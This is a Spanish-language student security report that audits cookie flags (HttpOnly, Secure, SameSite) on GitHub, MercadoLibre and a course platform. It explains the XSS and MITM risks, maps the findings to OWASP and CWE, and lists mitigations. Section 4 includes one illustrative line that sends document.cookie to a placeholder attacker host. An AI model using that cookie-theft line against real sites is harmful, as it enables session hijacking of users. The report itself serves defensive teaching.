



# Objetivo 1 — Auditoría de Cookies y Banderas de Seguridad

> **Curso:** Ciberseguridad Web y Ethical Hacking (UTN / Software Seguro)
> **Módulo / Objetivo:** Security Misconfiguration — Cookies y banderas de seguridad
> **Autora:** María de los Ángeles Acuña — QA Tester
> **Fecha:** Noviembre 2026

---

## 1. Introducción

Una cookie de sesión es, en la práctica, la credencial que identifica a un usuario autenticado
frente al servidor en cada request posterior al login. Si esa cookie cae en manos de un
atacante, el atacante **es** ese usuario para la aplicación, sin necesidad de contraseña. Por
eso el navegador expone tres banderas de seguridad que acotan cómo se puede acceder y
transmitir esa cookie:

- **HttpOnly** — la cookie no es accesible desde JavaScript (`document.cookie`).
- **Secure** — la cookie solo se envía por HTTPS, nunca en texto plano por HTTP.
- **SameSite** — controla si la cookie se envía en requests que vienen de otro sitio (mitiga CSRF).

Para esta auditoría se inspeccionaron, con el inspector del navegador (DevTools →
Almacenamiento → Cookies), las cookies de **tres sitios públicos**: uno con sesión de usuario
real logueada (la plataforma del curso), y dos sin iniciar sesión (GitHub y MercadoLibre), para
poder comparar cómo cambia el panorama de cookies con y sin autenticación.

> **Nota de método:** en las capturas que acompañan este informe se ocultó manualmente la
> columna "Valor" de cada cookie, porque esos valores son tokens de sesión reales (uno de
> ellos, el de la plataforma del curso, es un JWT de autenticación vigente). Publicar esos
> valores en un repositorio público equivaldría a publicar una credencial de sesión utilizable.
> Las banderas (HttpOnly / Secure / SameSite), que es lo que se audita acá, se mantuvieron
> visibles.

---

## 2. Sitios auditados

| # | Sitio | Estado de sesión | Cantidad de cookies relevadas |
|---|---|---|---|
| 1 | `github.com` | **Sin loguear** (cookie `logged_in=no`) | 11 |
| 2 | `mercadolibre.com.ar` | **Sin loguear** | 14 (+ 1 de dominio de terceros, `doubleclick.net`) |
| 3 | `app.softwareseguro.com.ar` (plataforma del curso) | **Logueada** (cookie `auth` presente) | 4 |

---

## 3. Tabla comparativa de banderas por cookie

### 3.1 GitHub (github.com) — sin loguear

| Cookie | HttpOnly | Secure | SameSite | Función aparente |
|---|---|---|---|---|
| `_device_id` | ✅ true | ✅ true | Lax | Identificador de dispositivo (antifraude) |
| `_gh_sess` | ✅ true | ✅ true | Lax | Sesión de la app |
| `_octo` | ❌ false | ✅ true | Lax | Analytics interno |
| `cpu_bucket` | ❌ false | ✅ true | Lax | A/B testing |
| `GHCC` | ❌ false | ✅ true | Lax | Consentimiento de cookies |
| `logged_in` | ✅ true | ✅ true | Lax | Indica si hay sesión activa (acá, "no") |
| `Microsoft...` (telemetría MS) | ❌ false | ✅ true | None | Telemetría de terceros |
| `MSFPC` | ❌ false | ✅ true | None | Tracking de Microsoft |
| `preferred_color_mode` | ❌ false | ✅ true | Lax | Preferencia de tema (dark) |
| `saved_user_sessions` | ✅ true | ✅ true | Lax | Referencia a sesiones guardadas |
| `tz` | ❌ false | ✅ true | Lax | Zona horaria |

**Lectura:** las cookies con función de sesión/identidad (`_gh_sess`, `_device_id`,
`logged_in`, `saved_user_sessions`) tienen **HttpOnly=true**. Las que no son sensibles
(preferencias, analytics) no lo tienen, lo cual es razonable. **Todas** tienen Secure=true.
GitHub aplica el criterio correcto: HttpOnly reservado para lo que es realmente sesión.


*Captura: DevTools → Almacenamiento → Cookies, github.com (sin loguear).*

### 3.2 MercadoLibre (mercadolibre.com.ar) — sin loguear

| Cookie | HttpOnly | Secure | SameSite | Función aparente |
|---|---|---|---|---|
| `_csrf` | ✅ true | ✅ true | None | Token anti-CSRF |
| `c_26WzJ4`, `c_l2q2G` | ✅ true | ✅ true | None | Internas de MELI (config/consentimiento) |
| `cp` | ✅ true | ✅ true | None | Código de país/zip |
| `inferredZipcode` | ✅ true | ✅ true | None | Geolocalización inferida |
| `_bm_skipml`, `_bm_timing`, `_bmc` | ❌ false | ❌ false | (vacío) | Bot management (terceros, Akamai) |
| `_bmstate` | ❌ false | ❌ false | Lax | Bot management |
| `_d2id` | ✅ true | ✅ true | None | Identificador de dispositivo |
| `_gcl_au` | ❌ false | ❌ false | None | Google Ads (atribución) |
| `_hjSessionUser_720735` | ❌ false | ❌ false | None | Hotjar (analytics de UX) |
| **`_mldataSessionId`** | ❌ **false** | ✅ true | None | **ID de sesión de analítica de datos de MELI** |
| `_pin_unauth` | ✅ true | ✅ true | None | Pinterest (tracking de conversión) |

**Lectura — hallazgo a remarcar:** la cookie `_mldataSessionId` está nombrada explícitamente
como "session id" y sin embargo tiene **HttpOnly=false**, quedando accesible desde JavaScript.
Varias cookies de bot-management (`_bm_*`) ni siquiera tienen Secure, aunque en este caso son
cookies de terceros con fines antibot/analytics, no de sesión de usuario, por lo que el riesgo
real es bajo — pero ilustra que **no todas las cookies "de sesión" en el nombre están
efectivamente protegidas**, y conviene no asumir seguridad por el nombre de la cookie sino
revisar la bandera real.


*Captura: DevTools → Almacenamiento → Cookies, mercadolibre.com.ar (sin loguear).*

### 3.3 Plataforma del curso (app.softwareseguro.com.ar) — logueada

| Cookie | HttpOnly | Secure | SameSite | Función aparente |
|---|---|---|---|---|
| `_ga_MR6...`, `_ga` | ❌ false | ❌ false | — | Google Analytics |
| **`auth`** | ❌ **false** | ✅ true | Lax | **Token de sesión (JWT) del usuario logueado** |
| `cf_clearance` | ✅ true | ✅ true | None | Challenge de Cloudflare (antibot) |

**Lectura — hallazgo principal de esta auditoría:** la cookie `auth`, que contiene el JWT de
autenticación de la sesión activa (confirmado por su estructura y por ser la única cookie
distinta de analytics/antibot en una sesión logueada), tiene **HttpOnly=false**. Esta es,
de las tres auditorías, la única donde una cookie de sesión *real y activa* queda expuesta a
JavaScript. Es el caso más relevante para explicar el riesgo de no usar HttpOnly en la
práctica, con datos propios y no hipotéticos.


*Captura: DevTools → Almacenamiento → Cookies, plataforma del curso (sesión logueada).*

---

## 4. ¿Qué protege HttpOnly?

HttpOnly es una bandera que le indica al navegador: *"esta cookie no debe estar disponible
para scripts del lado del cliente"*. Concretamente, con HttpOnly activo, `document.cookie`
**no devuelve esa cookie**, y ninguna librería de JavaScript que corra en la página puede
leerla, modificarla ni exfiltrarla.

Esto importa porque protege específicamente contra el escenario de **Cross-Site Scripting
(XSS)**: si un atacante logra inyectar JavaScript malicioso en la página (por un campo mal
sanitizado, una librería de terceros comprometida, etc.), ese script corre con el mismo
contexto que el resto de la página. **Sin HttpOnly**, ese script podría ejecutar algo tan
simple como:

```javascript
fetch('https://atacante.com/robar?cookie=' + document.cookie);
```

y enviar la cookie de sesión completa al servidor del atacante. Con esa cookie, el atacante
puede hacerse pasar por el usuario sin necesidad de contraseña ni segundo factor —esto se
conoce como **session hijacking vía XSS**.

**Con HttpOnly activo**, aunque el XSS exista y el script se ejecute igual, ese script **no
puede leer la cookie protegida**: `document.cookie` simplemente no la incluye. El XSS sigue
siendo un problema (puede hacer otras cosas, como phishing in-page o key logging), pero deja
de ser una vía directa para robar la sesión.

> **Aplicado al caso real relevado:** la cookie `auth` de la plataforma del curso, al no tener
> HttpOnly, sería robable con una línea de JavaScript si existiera *cualquier* vulnerabilidad
> de XSS en esa aplicación. Es exactamente el escenario que esta bandera existe para evitar.

---

## 5. ¿Cuál es el riesgo de no tener Secure?

Secure le dice al navegador: *"enviá esta cookie únicamente por conexiones HTTPS, nunca por
HTTP en texto plano"*. Sin esta bandera, si la misma cookie se pudiera enviar también por
HTTP (por ejemplo porque existe una versión no segura del sitio, un subdominio mal
configurado, o el usuario fuerza `http://` manualmente), el valor de la cookie viajaría **sin
cifrar** por la red.

El riesgo concreto es un ataque de tipo **Man-in-the-Middle (MITM)**: cualquiera que pueda
interceptar el tráfico de red del usuario —en un Wi-Fi público no cifrado, una red corporativa
comprometida, un proxy malicioso— puede leer esa cookie en texto plano con una herramienta
como Wireshark, y usarla para robar la sesión, sin necesidad de romper ningún cifrado ni
explotar ninguna vulnerabilidad de la aplicación.

En los tres sitios auditados, la gran mayoría de las cookies con datos de sesión o
identificación tienen Secure=true, que es el comportamiento esperado en sitios que sirven
todo por HTTPS. Las excepciones (`_ga`/`_ga_MR6...` de Analytics y algunas `_bm_*` de
MercadoLibre) corresponden a cookies de analítica/antibot de terceros, no a cookies de sesión
de usuario — el riesgo ahí es menor, aunque igual sería preferible que también fueran Secure
por defecto.

---

## 6. Clasificación

- **Tipo de hallazgo:** configuración insegura de atributos de cookie (falta de HttpOnly en
  cookie de sesión).
- **OWASP Top 10:** **A05:2021 — Security Misconfiguration**; relacionado también con
  **A07:2021 — Identification and Authentication Failures** cuando la cookie expuesta es la
  de sesión/autenticación.
- **CWE:** **CWE-1004 — Sensitive Cookie Without 'HttpOnly' Flag**; adicionalmente
  **CWE-614 — Sensitive Cookie in HTTPS Session Without 'Secure' Attribute** para las cookies
  sin Secure.
- **Severidad:** depende de si existe o no una vulnerabilidad de XSS en la aplicación. Por sí
  sola, una cookie sin HttpOnly **no es explotable** — es un **multiplicador de riesgo**: si
  en el futuro aparece un XSS, una cookie de sesión sin HttpOnly convierte ese XSS en un robo
  de sesión directo.

---

## 7. ¿Cómo se mitiga?

1. **Marcar HttpOnly en toda cookie de sesión/autenticación.** En la mayoría de los
   frameworks es un flag al momento de setear la cookie:
   - **Express/Node:** `res.cookie('auth', token, { httpOnly: true, secure: true, sameSite: 'lax' })`
   - **PHP:** `setcookie('auth', $token, ['httponly' => true, 'secure' => true, 'samesite' => 'Lax'])`
   - **Django:** `SESSION_COOKIE_HTTPONLY = True`

2. **Marcar Secure en toda cookie que viaje por un sitio servido con HTTPS** (hoy, prácticamente
   todos). Combinado con **HSTS** (`Strict-Transport-Security`) a nivel de servidor, para que
   el navegador ni siquiera intente HTTP.

3. **Definir SameSite explícitamente** (`Lax` o `Strict` según el caso de uso) en vez de dejarlo
   sin especificar, para mitigar CSRF.

4. **No depender solo de HttpOnly.** Es una mitigación importante pero no reemplaza prevenir
   el XSS en primer lugar: sanitizar inputs, usar Content-Security-Policy, escapar output.

### Verificación (re-test)

- Volver a inspeccionar la cookie en DevTools tras el cambio y confirmar que la columna
  HttpOnly pasa a `true`.
- Intentar `document.cookie` desde la consola del navegador y confirmar que la cookie de
  sesión ya no aparece en el resultado.

---

## 8. Conclusión

Las tres banderas de cookie (HttpOnly, Secure, SameSite) no son un detalle cosmético: son la
última línea de defensa de una cookie de sesión cuando otra capa de seguridad ya falló (un
XSS, una red insegura, un ataque cross-site). En esta auditoría, GitHub mostró el patrón
correcto —HttpOnly reservado para lo que es sesión real—, mientras que tanto MercadoLibre
(`_mldataSessionId`) como, sobre todo, la plataforma del curso (`auth`) tienen cookies
nombradas o funcionalmente ligadas a sesión **sin HttpOnly**, quedando expuestas a robo vía
JavaScript si alguna vez aparece una vulnerabilidad de XSS en esas aplicaciones. La mitigación
es de bajo costo (un flag al setear la cookie) y de alto impacto, por lo que debería ser
estándar en cualquier cookie que identifique a un usuario autenticado.

---

## Referencias

- OWASP Top 10 — A05:2021 Security Misconfiguration.
- OWASP Top 10 — A07:2021 Identification and Authentication Failures.
- CWE-1004 — Sensitive Cookie Without 'HttpOnly' Flag.
- CWE-614 — Sensitive Cookie in HTTPS Session Without 'Secure' Attribute.
- OWASP Cheat Sheet Series — *Session Management Cheat Sheet* (atributos de cookies).
- MDN Web Docs — *Using HTTP cookies* (HttpOnly, Secure, SameSite).
